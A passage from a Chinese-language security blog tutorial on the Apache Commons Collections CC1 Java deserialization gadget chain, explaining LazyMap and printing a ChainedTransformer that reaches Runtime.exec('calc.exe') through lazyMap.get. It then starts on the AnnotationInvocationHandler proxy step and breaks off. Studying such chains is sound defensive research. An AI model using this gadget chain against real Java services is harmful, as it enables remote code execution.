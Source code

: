 构造函数存储传入的Transformer

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240713191550433.png)

在get函数内，如果map内有以参数key为键的值，则返回该值。如果没有，使用调用factory.transform()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240713191128650.png)

从以上内容可以看出来，LazyMap.decorate是把传入的Transformer绑定到LazyMap。get函数就是从map中查找以Transfomer为键的值，没有就调用当前Transformer的transform方法，把返回对象做为value添加进map。

也就是：LazyMap意为懒装配Map，不像其他Map，LazyMap的创建只需要传入键，在get时才把键和transform返回的结果put进map。

书接上文https://godownio.github.io/2024/07/10/cc-chong-qi-zhi-cong-ling-dai-ma-gou-zao-cc1/

我们构造chainedTransformer代码如下：

```java
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
            new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//chainedTransformer1
```

我们控制factory为chainedTransformer，且设置的map中不存在以chainedTransform为键，即可成功调用chainedTransformer.transform()

```java
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
            new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        lazyMap.get("godown");
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240713193344329.png)



### AnnotationInvocationHandler动态代理

由于调用到get的方法实在是太多了（所以你能挖出的也很多），官方给出的下一步是在AnnotationInvocationHandler的invoke中调用get方法。

AnnotationInvocationHandler实现了InvocationHandler接口，并重写了invoke方法，典型的代理类！
